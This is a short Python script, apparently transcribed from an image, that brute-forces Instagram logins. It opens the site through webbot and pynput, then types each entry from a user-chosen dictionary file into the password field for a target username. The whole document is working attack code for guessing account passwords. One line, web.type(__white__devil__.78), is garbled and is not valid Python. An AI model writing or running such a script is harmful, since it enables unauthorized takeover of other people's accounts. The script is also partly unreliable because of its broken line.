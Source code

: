 from webbot import Browser
from pynput.keyboard import Key, Controller
import time
username = input('Username: ')
dictionary = input('Choose Dictionary: ')

file = open(f'{dictionary}.txt', 'r')
bruteforce = []
for line in file:
    line = line.strip()
    bruteforce.append(line)
file.close()

web = Browser()
keyboard = Controller()


web.go_to('www.instagram.com')
time.sleep(3)
keyboard.press(Key.enter)
keyboard.release(Key.enter)
time.sleep(3)
keyboard.press(Key.tab)
keyboard.release(Key.tab)
time.sleep(3)
web.type(__white__devil__.78)
keyboard.press(Key.tab)
keyboard.release(Key.tab)
for brute in bruteforce:
    web.type(brute, into="Password")
    keyboard.press(Key.enter)
    keyboard.release(Key.enter)
